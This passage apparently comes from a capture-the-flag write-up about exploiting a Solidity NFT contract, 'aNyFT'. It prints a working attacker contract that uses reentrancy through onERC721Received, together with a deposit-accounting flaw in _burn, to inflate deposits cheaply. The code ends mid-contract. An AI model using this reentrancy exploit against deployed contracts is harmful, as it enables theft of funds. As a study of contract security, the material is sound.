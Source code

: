 ```ts
        return _ERC721_RECEIVED;
    }
}
```

So far with what we know this is what our attacking contract looks like. Our attacking contract is an `IERC721Receiver` and implements the `onERC721Received` function which will recall `anyFT.mint`. All of this code gets run before `createdNFT[msg.sender] = true;` is updated.

Now we have a separate problem. The above code will allow us to mint as many tokens as we want, but we would need to provide at least 0.005 ether per token, and we need to get our deposit value to 11 ether. We would still be spending 11 ether which is way too much.

```js
function _burn(uint256 tokenId) internal {
        address previousOwner = _update(address(0), tokenId, address(0));
        if (previousOwner == address(0)) {
            revert ERC721NonexistentToken(tokenId);
        }

        _withdrawn[previousOwner] += deposits[previousOwner];
    }
```

One thing to remember in the _burn function, is that our deposits amount never gets reset. It only resets to the value we specify when creating a new token. So why dont we create a bunch of 0.005 ether tokens, and have our last token contain 0.5 ether. This will cause our deposits value to incrememnt at 0.5 ether per token instead of the token's real value. This means that we only need to mint 22 tokens to get our deposits value to 11 ether. This would cost `0.005*21+0.5 = 0.605 ether` which is much more reasonable.

# Attacking Contract

```ts
contract Attack is IERC721Receiver{
    aNyFT public  anyFT;
    bytes4 private constant _ERC721_RECEIVED = IERC721Receiver.onERC721Received.selector;
    uint256 public count = 0;
    uint256[] public tokenIds;

    constructor (address _addr) {
        anyFT = aNyFT(_addr);
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        count += 1;
        addTokenId(tokenId);
        if (count < 22) {
            anyFT.mint{value: 0.005 ether}("bruh");
        }
        else if (count == 22) {
            anyFT.mint{value: 0.5 ether}("bruh");
        }
        emit ERC721Received(operator, from, tokenId, data);
        return _ERC721_RECEIVED;
    }

    function mint() public payable {
        anyFT.mint{value: 0.005 ether}("hi");
    }
```